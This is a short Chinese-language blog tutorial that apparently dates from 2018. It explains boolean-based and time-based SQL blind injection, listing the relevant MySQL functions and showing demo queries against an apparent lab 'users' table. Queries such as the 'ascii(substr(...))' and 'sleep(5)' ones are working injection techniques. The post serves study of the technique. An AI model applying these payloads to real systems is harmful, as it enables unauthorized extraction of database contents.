 ```yaml
---
layout: post
title:  "SQL盲注"
date:   2018-01-06 21:41:45 +0800
categories: [SQL注入, 盲注]
---
```


> 在没有回显，报错的情况下我们要利用一个注入，大致分为这两类：布尔，时间（这里没有将报错归入盲注是我觉得报错还是有错误回显回来的）

1.**基于布尔型的盲注**
先介绍几个下面可能会用到的函数：
-	left(str,len) 返回str从左到右的len长度的字符
-	substr(str,pos,len);
	mid(str,pos,len);
    substring(str,pos,len);
    返回str第pos位向右len长度的字符(mysql里的解释是：substr,mid is a synonym for SUBSTRING)
-	ascii(char); 
	ord(char);
    返回字符的ascii码值
-	like '';
	regexp '' 模糊匹配模式

简单的演示
```mysql
mysql> select * from users where id=1 and ascii(substr((select user()),1,1)) > 49;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where id=1 and ascii(substr((select user()),1,1)) = 49;
Empty set (0.00 sec)
```

2.**基于时间的盲注**
基于时间的话，主要会利用到这两个函数sleep()和benchmark()配合if使用像下面这样
```mysql
mysql> select * from users where id=1 union select 1,1,if(ascii(substr((select user()),1,1)) = 49,0,sleep(5));
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
|  1 | 1        | 0        |
+----+----------+----------+
2 rows in set (5.00 sec)
```
